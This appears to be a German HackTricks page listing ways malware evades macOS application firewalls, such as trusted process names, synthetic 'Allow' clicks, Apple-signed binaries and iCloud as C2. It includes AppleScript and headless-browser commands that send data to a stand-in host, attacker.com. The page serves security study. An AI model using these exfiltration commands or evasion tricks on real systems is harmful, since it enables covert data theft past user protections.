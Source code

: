 # macOS Bypassing Firewalls

{{#include ../../banners/hacktricks-training.md}}

## Gefundene Techniken

Die folgenden Techniken wurden in einigen macOS-Firewall-Apps als funktionierend festgestellt.

### Missbrauch von Whitelist-Namen

- Zum Beispiel das Malware mit Namen bekannter macOS-Prozesse wie **`launchd`** aufzurufen.

### Synthetischer Klick

- Wenn die Firewall den Benutzer um Erlaubnis bittet, lasse die Malware **auf Erlauben klicken**.

### **Verwendung von Apple-signierten Binärdateien**

- Wie **`curl`**, aber auch andere wie **`whois`**.

### Bekannte Apple-Domains

Die Firewall könnte Verbindungen zu bekannten Apple-Domains wie **`apple.com`** oder **`icloud.com`** erlauben. Und iCloud könnte als C2 verwendet werden.

### Generischer Bypass

Einige Ideen, um zu versuchen, Firewalls zu umgehen.

### Überprüfen des erlaubten Verkehrs

Das Wissen um den erlaubten Verkehr wird Ihnen helfen, potenziell auf die Whitelist gesetzte Domains oder welche Anwendungen ihnen Zugriff gewährt wird, zu identifizieren.
```bash
lsof -i TCP -sTCP:ESTABLISHED
```
### Missbrauch von DNS

DNS-Auflösungen erfolgen über die **`mdnsreponder`** signierte Anwendung, die wahrscheinlich berechtigt ist, DNS-Server zu kontaktieren.

<figure><img src="../../images/image (468).png" alt="https://www.youtube.com/watch?v=UlT5KFTMn2k"><figcaption></figcaption></figure>

### Über Browser-Apps

- **oascript**
```applescript
tell application "Safari"
run
tell application "Finder" to set visible of process "Safari" to false
make new document
set the URL of document 1 to "https://attacker.com?data=data%20to%20exfil
end tell
```
- Google Chrome
```bash
"Google Chrome" --crash-dumps-dir=/tmp --headless "https://attacker.com?data=data%20to%20exfil"
```
- Firefox
```bash
firefox-bin --headless "https://attacker.com?data=data%20to%20exfil"
```
- Safari
```bash
open -j -a Safari "https://attacker.com?data=data%20to%20exfil"
```
### Durch Prozessinjektionen

Wenn Sie **Code in einen Prozess injizieren** können, der berechtigt ist, eine Verbindung zu einem beliebigen Server herzustellen, könnten Sie die Firewall-Schutzmaßnahmen umgehen:

{{#ref}}
macos-proces-abuse/
{{#endref}}

## Referenzen

- [https://www.youtube.com/watch?v=UlT5KFTMn2k](https://www.youtube.com/watch?v=UlT5KFTMn2k)

{{#include ../../banners/hacktricks-training.md}}

